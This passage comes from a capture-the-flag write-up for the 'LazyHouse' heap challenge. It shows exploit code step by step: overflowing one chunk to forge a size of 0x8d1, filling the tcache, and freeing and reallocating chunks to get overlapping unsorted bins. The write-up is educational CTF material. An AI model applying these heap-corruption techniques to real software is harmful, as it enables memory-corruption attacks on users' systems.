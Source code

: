 Then, I use **house 0** to make the overflow to overwrite the size of the chunk at **0x15d0** to **0x8d1**.
```
#overlapping first
upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/cb48b397-1a45-4758-a87f-5ec40a815ff3.png)

Then, I fill the tcache of size (0x90 + 0x10) up, and I make 4 chunk of this size, which will be free into unsorted bins.
```
for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)

#unsorted bin
buy_house(4, 0x90, "\x44" * 0x90)
buy_house(5, 0x90, "\x55" * 0x90)
buy_house(6, 0x90, "\x66" * 0x90)
buy_house(7, 0x90, "\x77" * 0x90)


```
Than, I free the chunk(the size of which is overwrite with 0x8d1) at 0x15d0. So a big unsorted bin is list.
```
sell(1)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/bbf2e852-9fbf-47d9-bd8a-605a59e2ddb2.png)

Then, I calloc the chunk of (0x8d0 - 0x10) to get the chunk again. Which is the most import is that, we then free the chunk of **house 4** and **house 6** to make them into unsorted bins.
```
buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0xa1) + "\xcc" * 0x90 +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + "\x44" * 0x90 +
          p64(0) + p64(0xa1) + "\x55" * 0x90 +
          p64(0) + p64(0xa1) + "\x66" * 0x90 + 
          p64(0) + p64(0xa1) + "\x77" * 0x90 )
#pause()
sell(4)
sell(6)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/54b015be-9a32-4986-b080-8ff7b6ca1a6c.jpg)
